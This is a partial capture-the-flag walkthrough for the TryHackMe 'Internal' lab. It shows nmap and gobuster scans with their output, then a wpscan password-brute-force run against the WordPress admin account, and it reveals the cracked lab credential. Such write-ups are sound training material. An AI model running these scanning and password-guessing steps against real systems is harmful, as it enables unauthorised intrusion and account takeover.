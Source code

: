 # Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###

![alt text](/Hard/Internal/image-1.png)

### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:

![alt text](image.png)

![alt text](image-2.png)

+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```

![alt text](image-3.png)

--> We had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 

![alt text](image-4.png)







